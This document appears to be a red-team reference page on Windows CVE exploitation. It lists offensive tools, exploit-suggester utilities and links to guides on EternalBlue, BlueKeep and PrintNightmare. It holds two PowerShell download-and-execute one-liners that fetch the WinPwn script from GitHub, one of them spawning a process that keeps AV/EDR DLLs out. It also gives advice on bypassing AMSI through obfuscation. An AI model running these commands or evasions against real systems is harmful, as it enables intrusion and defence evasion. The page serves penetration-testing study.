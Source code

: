 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Windows CVE Exploitation
### References

### Enumeration

### Broad Exploit Tools/Suites
* See Redvelatiions Guide on Apps/Services Exploitation
* <details><summary>WinPwn (S3cur3Th1sSh1t) (Click to expand)</summary><p>
	* <details><summary>References (Click to expand)</summary><p>
		* [https://github.com/S3cur3Th1sSh1t/WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn)
	* <details><summary>Notes (Click to expand)</summary><p>
		* For full offline option, use `Offline_Winpwn.ps1`
			* Core set of scripts/executables included
	* <details><summary>Process (Click to expand)</summary><p>
		1. Import the module
			* Import the Modules (one of the following ways):

					Import-Module .\WinPwn.ps1
					iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
		1. Bypass AMSI in one of the below ways
			* Obfuscate the whole script
				* Suggested: `ISESteroids` and or `Invoke-Obfuscation`
			* Use by taking an existing bypass technique
				1. Select from list
					* [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
				1. Find the AMSI trigger and change the signature at the part via variable/function renaming, string replacement or encoding and decoding at runtime.
					* [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)
				1. Manually change "it" in the bypass function or encode the trigger string.
		1. To spawn a new protected PowerShell Process that is set to run with `BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` process mitigation:

				iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/Obfus_SecurePS_WinPwn.ps1')
			* Prevents non-microsoft DLLs (e.g. AV/EDR products) to load into PowerShell - unless they have a Cross-Signed Microsoft certificate.
	* <details><summary>Windows Version Exploits (Click to expand)</summary><p>
		* On the system
			* metasploit

				post/windows/gather/enum_patches
				post/multi/recon/local_exploit_suggester
		* watson -<br />[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)
		* winpeas -<br />[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
	* <details><summary>Locally with system information (Click to expand)</summary><p>
		* Windows Exploit Suggester -<br />[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
		* wesng -<br />[https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)
	* <details><summary>Github repos of exploits: (Click to expand)</summary><p>
		* "PoC in GitHub" -<br />[https://github.com/nomi-sec/PoC-in-GitHub](https://github.com/nomi-sec/PoC-in-GitHub)
		* .
	* <details><summary>Elevate from LOCAL SERVICE or NETWORK SERVICE to full privs (Click to expand)</summary><p>
		* Tools
			* "FullPowers" -<br />[https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

### Exploits
* [Eternal Blue](Testaments_and_Books/Redvelations/Windows/Exploits/Eternal_Blue.md)
* [BlueKeep](Testaments_and_Books/Redvelations/Windows/Exploits/BlueKeep.md)
* [Potatoes](Testaments_and_Books/Redvelations/Windows/Exploits/Print_Nightmare.md)
* [Print Nightmare Exploit Guide](Testaments_and_Books/Redvelations/Windows/Exploits/Print_Nightmare.md)